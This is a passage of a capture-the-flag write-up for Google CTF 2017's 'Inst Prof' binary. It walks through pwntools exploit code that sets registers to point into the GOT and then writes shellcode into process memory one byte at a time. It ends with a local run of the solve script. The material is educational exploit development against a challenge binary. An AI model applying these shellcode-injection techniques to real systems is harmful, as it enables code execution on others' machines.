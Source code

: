 Obviously, there is some data at the beginning of the GOT section. We should avoid overwritting it. That's the 
reason of the following lines.
```python
# We make a copy of the initial address of the GOT in r14
p.send(asm('mov r14, r13') + ret)           # "\x4d\x89\xee" + "\xc3";

# We add 0x80 to r14 to point aheader, not the values we do not want to overwrite.
inst = asm('inc r14') + ret                 # "\x49\xff\xc6" + "\xc3"; 
for i in range(0x80):
    p.send(inst)

# Copy of the address + 0x80 to r15.
# We will need this copy to use it as an iterator to copy each byte of the shellcode into memory.
p.send(asm('mov r15, r14') + ret)           # "\x4d\x89\xf7" + "\xc3";

```
Dont get lost. Briefly, when the execution of this script reach this point, the value of `r13`, `r14` and `r15` 
is going to be:

1. `r13` = Beginning of GOT

2. `r14` = GOT + 0x80 = Start address of our shellcode

3. `r15` = GOT + 0x80 = Start address of our shellcode

> mmmh repeat me again, why `r14` and `r15` have the same value?

It is just because we will increment `r15` one by one and use it to write each byte of the shellcode but we 
will still need to know its initial value to say: "Hey you! start executing instructions at this point please".

At this point we want to write the entire shellcode at a register (`r14` or `r15`) incrementing it by one each time one of the bytes of the shellcode is stored.
```python
def writeByteString(str):
    mov_r15 = "\x41\xc6\x07"                # mov byte ptr [r15], {byte}
    inc_r15 = asm('inc r15') + ret          # "\x49\xff\xc7" + "\xc3"
    
    for byte in str:
        p.send(mov_r15 + byte)              
        p.send(inc_r15)                     # inc r15    
```

When we execute that function with the shellcode as argument the registers will be as follows:

1. `r13` = Beginning of GOT

2. `r14` = GOT + 0x80 = Start address of our shellcode

3. `r15` = GOT + 0x80 + 0x23 = End address of our shellcode

Lets check all this code and show the memory of the process with r2 to ensure that our shellcode is there. 
[solve1.py](/assets/GoogleCTF2017/Inst Prof/solve1.py).
```bash
$ ./solve1.py
[+] Starting local process './inst_prof': pid 17632
initializing prof...ready
```

